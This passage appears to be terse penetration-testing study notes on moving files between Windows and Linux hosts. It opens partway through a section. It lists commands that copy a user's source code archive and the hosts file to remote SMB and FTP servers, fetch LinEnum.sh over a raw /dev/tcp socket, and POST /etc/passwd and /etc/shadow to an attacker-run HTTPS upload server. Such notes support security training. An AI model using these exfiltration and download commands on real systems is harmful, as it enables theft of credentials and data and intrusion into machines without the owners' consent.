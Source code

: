 ```cmd-session
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```

- using FTP

```shell-session
sudo python3 -m pyftpdlib --port 21 --write
```

```powershell-session
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```



# Linux File Transfers

### Download
- base64 encode file content -> copy => paste =>base64 decode get file content 
- using wget , curl 
- fileless upload `|sh`

- Download using Bash

```shell-session
exec 3<>/dev/tcp/10.10.10.32/80
```

```shell-session
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

```shell-session
cat <&3
```


- using SCP
```shell-session
scp plaintext@192.168.49.128:/root/myroot.txt . 
```



### Download

- using upload server

create certificate
```shell-session
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

```shell-session
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```
upload
```shell-session
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
